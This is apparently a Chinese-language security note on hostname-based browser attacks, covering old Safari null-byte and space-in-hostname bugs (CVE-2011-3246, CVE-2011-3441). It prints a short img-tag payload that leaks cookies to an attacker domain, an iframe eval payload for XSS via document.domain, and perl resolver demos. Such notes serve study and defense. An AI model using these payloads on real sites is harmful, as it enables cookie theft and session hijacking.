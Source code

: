 基于Hostname的攻击----# 第一部分：Safari的HTTP Cookie泄露Safari有一个[bug](https://bugs.webkit.org/show_bug.cgi?id=30225)，在将URL返回到JS之前，在内部对URL进行了解码。这样会对客户端安全产生影响。`<img src=http://mallo.ry%00.victim.com/>`这个看似正常的图片会做以下事情：* 将`mallo.ry%00.victim.com`当做`victim.com`的子域。* DNS解析器使用了C语言的字符串，在第一个空字符（null）处停止，并且解析`mallo.ry`的IP地址。危害：任何站点都可以只用一个图片标签来盗取其他站点的cookie。### links[1](http://steike.com/hostnames/1/)[2](http://steike.com/hostnames/2/)### excerptsCVE-2011-3441The patch for CVE-2011-3246 worked by changing CFNetwork's cookie handling to no longer return any cookies for domain names containing null bytes.This means the exact exploit http://mallo.ry%00.victim.com/ no longer delivered any cookies to mallo.ry. However, Safari still made the request, and the response was interpreted as a subdomain of victim.com for document.domain purposes. If any part of the victim site set document.domain, you could run something like this and get a full XSS:```<body onload="document.domain = 'victim.com';"><iframe src="http://victim.com/subpage-that-lowers/"  onload="this.contentWindow.eval('.....')">```#### Bonus cookie leakA second vector allowed much the same exploit as CVE-2011-3246, because of a quirk of the OS X resolver:```mac# perl -e 'print unpack "H*", gethostbyname "127.0.0.1";'7f000001mac# perl -e 'print unpack "H*", gethostbyname "127.0.0.1 .unrelated.com";'7f000001mac#linux# perl -e 'print unpack "H*", gethostbyname "127.0.0.1"; '7f000001linux# perl -e 'print unpack "H*", gethostbyname "127.0.0.1 .unrelated.com"; 'linux#```Thus a URL like http://127.0.0.1%20.victim.com/ would still ship the user's cookies off into the void.As an extra bonus, 0x7f000001%20.victim.com gives the same result with no dots in the host name – this turns out to be very useful if the site uses HTTPS (see part 3)